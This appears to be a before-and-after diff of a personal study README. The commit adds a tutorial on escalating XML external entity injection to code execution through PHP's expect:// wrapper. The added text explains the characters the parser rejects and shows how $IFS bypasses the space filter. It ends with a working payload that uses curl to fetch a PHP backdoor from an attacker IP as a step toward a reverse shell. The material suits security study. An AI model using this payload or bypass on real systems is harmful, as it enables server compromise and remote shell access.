

Before and after one commit to anilarelli/Learning, a Markdown page: README.md, the part around the change. Shown at 81% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -621,6 +621,65 @@ Instances where RCE is possible via XXE are rare,
 (<!ENTITY rce SYSTEM “expect://ifconfig” >).
 ```
 
+The idea is that you provide a reference to ```expect://id``` pseudo URI for the XML external entity, and PHP will execute ``id`` and return the output of the command for external entity substitution.
+
+Turns out it was quite a lot of work to get from that to a “useful” code execution. The problem is, PHP’s XML parser will error out if you have spaces in the expect pseudo URI, i.e. when providing arguments for the command. You might see something like this in the error log when trying ```expect://echo BLAH:```
+
+```python
+DOMDocument::loadXML(): Invalid URI: expect://echo BLAH in Entity, line: 2
+```
+
+Firstly, in addition to spaces, the following characters will be rejected with the “Invalid URI” error message similar to above (this might not be an exhaustive list):
+
+```python
+" - double quotes
+{ } - curly braces
+| - "pipe"
+\ - backslash
+< > - angle brackets
+: - colon
+```
+```python
+The following characters work fine:
+
+' - single quote
+; - semicolon
+( ) - brackets
+$ - dollar sign
+```
+This makes it hard to pass arguments to commands, redirect output, or use shell pipes.
+
+When constructing ``expect://`` pseudo URLs for external entity reference in XML you shouldn’t URL encode the string (it is interpreted literally). So using %20 or + instead of space doesn’t work, and neither does XML encoding like ``&#x20;`` or ``&#32;``.
+
+One workaround that `$IFS` built-in variable in sh and relies on the fact that the dollar sign is accepted. The core technique is to replace any spaces in your command with `$IFS`. In some cases this needs to be combined with the use of single quotes when a space needs to be followed by alphanumeric characters (so that they are not interpreted as a part of the variable name). Here’s a couple examples:
+
+``cat /tmp/BLAH becomes cat$IFS/tmp/BLAH``
+
+``echo BLAH`` becomes ``echo$IFS'BLAH'``
+
+`curl -O http://1.3.3.7/BLAH` becomes `curl$IFS-O$IFS'1.3.3.7/BLAH'`
+(: would not be allowed, but curl assumes it is http if you omit http://)
+
+Using these, a possible way to get a reverse shell using XXE would be to upload a PHP reverse shell and then execute it using your browser. (replace 1.3.3.7 with your IP and serve backdoor.php using `python3 -m http.server`
+
+```python
+<?xml version="1.0" encoding="UTF-8"?>
+<!DOCTYPE root [
+  <!ENTITY file SYSTEM "expect://curl$IFS-O$IFS'1.3.3.7:8000/backdoor.php'">
+]>
+<root>
+  <name>Joe</name>
+  <tel>ufgh</tel>
+  <email>START_&file;_END</email>
+  <password>kjh</password>
+</root>
+```
+
+
+
+
+
+
 # later
 
 
````
